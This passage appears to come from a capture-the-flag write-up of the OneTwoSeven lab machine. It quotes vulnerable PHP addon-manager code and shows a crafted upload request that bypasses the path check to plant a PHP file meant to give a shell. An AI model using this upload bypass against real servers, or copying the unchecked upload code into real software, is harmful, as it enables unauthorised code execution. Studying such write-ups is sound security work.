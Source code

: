 ```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS Addon Manager
switch (true) {
# Upload addon to addons folder.
    case preg_match('/\/addon-upload.php/',$_SERVER['REQUEST_URI']):
        if(isset($_FILES['addon'])){
            $errors= array();
            $file_name = basename($_FILES['addon']['name']);
            $file_size =$_FILES['addon']['size'];
            $file_tmp =$_FILES['addon']['tmp_name'];

            if($file_size > 20000){
                $errors[]='Module too big for addon manager. Please upload manually.';
            }

            if(empty($errors)==true) {
                move_uploaded_file($file_tmp,$file_name);
                header("Location: /menu.php");
                header("Content-Type: text/plain");
                echo "File uploaded successfull.y";
            } else {
                header("Location: /menu.php");
                header("Content-Type: text/plain");
                echo "Error uploading the file: ";
                print_r($errors);
            }
        }
        break;
...
```

There exists a way to upload files, we just have to figure out how to call this (as the form as mentioned does not work).

Several things have to be fullfilled to upload a file:

- we must be logged in
- we have to call "ots-man-addon.php"
- "/addons/" must not be part of the request path
- "addon-upload.php" must be part of the request path
- a file called addon must be in the post body

The following request uploads a custom plugin which when executed via the browser gives us a shell:

```
POST /addon-download.php?addon=addons/ots-man-addon.php&foo=/addon-upload.php HTTP/1.1
Host: 127.0.0.1:60080
User-Agent: curl/7.64.0
Accept: */*
Cookie: PHPSESSID=ra85breae1b57tdnmkl4it6go2
Content-Length: 499
Content-Type: multipart/form-data; boundary=------------------------8c1bb633500ccc52
Connection: close

--------------------------8c1bb633500ccc52
Content-Disposition: form-data; name="addon"; filename="/var/www/html/html-admin/addons/ots-xct.php"
Content-Type: application/octet-stream

<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS XCT
```
